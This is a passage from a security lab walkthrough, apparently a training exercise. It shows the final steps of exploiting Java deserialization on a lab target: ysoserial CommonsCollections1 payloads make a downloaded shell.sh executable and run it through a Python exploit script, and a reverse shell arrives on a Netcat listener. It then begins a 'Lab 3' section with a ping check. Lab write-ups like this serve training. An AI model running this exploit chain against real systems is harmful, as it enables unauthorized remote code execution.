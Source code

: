 
We have to run the python exploit two more times to execute the bash script in the target machine.

Step 10: Generate a payload again for making the downloaded shell.sh file executable.

Command:
```bash
java -jar ~/Desktop/tools/ysoserial/ysoserial-master-SNAPSHOT.jar CommonsCollections1 "chmod +x /tmp/shell.sh" > /root/payload.out
```



Step 11: Execute the python code again to send the payload for making shell.sh file executable.

Command:
```bash
python exploit.py 192.24.161.3 8080 /root/payload.out
```

Step 12: Generate a payload for executing the downloaded shell.sh file again.

Command:
```bash
java -jar ~/Desktop/tools/ysoserial/ysoserial-master-SNAPSHOT.jar CommonsCollections1 "/bin/bash /tmp/shell.sh" > /root/payload.out
```

Step 13: Execute the python code again to send the payload to the target machine for executing shell.sh file.

Command:
```bash
python exploit.py 192.24.161.3 8080 /root/payload.out
```


Step 14: Open the terminal where the Netcat was listening. The shell should arrive on the Netcat listener.

Check the id by the following command.

Command:
```bash
id
```


> Successfully achieved remote code execution.

## Lab 3
Solution

Step 1: Open the lab link to access the Kali GUI instance.


Step 2: Check if the provided machine/domain is reachable.

Command:
```bash
ping -c3 demo.ine.local
```
